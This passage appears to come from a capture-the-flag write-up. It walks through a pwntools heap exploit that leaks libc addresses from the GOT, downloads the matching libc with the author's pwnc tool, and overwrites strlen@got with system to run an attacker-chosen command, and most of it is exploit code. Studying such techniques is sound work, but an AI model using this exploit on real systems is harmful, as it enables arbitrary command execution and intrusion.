     allocate(size, b"a")
    edit(3, p64(elf.got.read))

    data = (delete(0)).split(b"Done")[0]
    if(b"\r\n" in data):
        data = data.split(b"\r\n")[1]
    read_addr = u64(data.ljust(8, b"\0"))

With two libc addresses in hand we can use 
[pwnc python library I wrote to directly download the targets libc](https://github.com/jhilbs3/pwnc)

    log.info(f"Using pwnc to get libc with known addresses")
    log.info(f"read@libc   = {hex(read_addr)}")
    log.info(f"puts@libc = {hex(puts_addr)}")
    known_addrs = {"read": read_addr, "puts": puts_addr}
    try:
        libc_bytes = get_libc(known_addrs)
    except pwnc_exceptions.PWNCResponseError as e:
        log.warn("Could not download libc. Failing.")
        return 1

    with tempfile.NamedTemporaryFile() as fd:
        fd.write(libc_bytes)
        libc = ELF(fd.name, checksec=False)

    # re-base libc
    libc.address = read_addr - libc.sym.read

If our download was successful we will now know where every libc symbol is in
our targets memory. Using this knowledge to get a shell is fairly simple. We
will overwrite a real libc entry in the GOT point to `system`. For this to work
correctly we must ensure that `rdi` is populated with a chunk address. This is
because we want to call `system(<ptr to our command>)` and it's very easy to
fill a heap chunk with any command we want. I targeted `strlen@got` for this

    # allocate to fill in index 0 again
    allocate(size, b"A")

    # allocate a chunk that contains our desired command
    allocate(size, args.command.encode())

    # we will not use our powers to edit strlen@got to make it point to the
    # address of system in libc
    edit(3, p64(elf.got.strlen))

    # because of pty on target we have to escape the \x7f because thats 
    # backspace. use escape char \x16
    payload = p64(libc.sym.system)
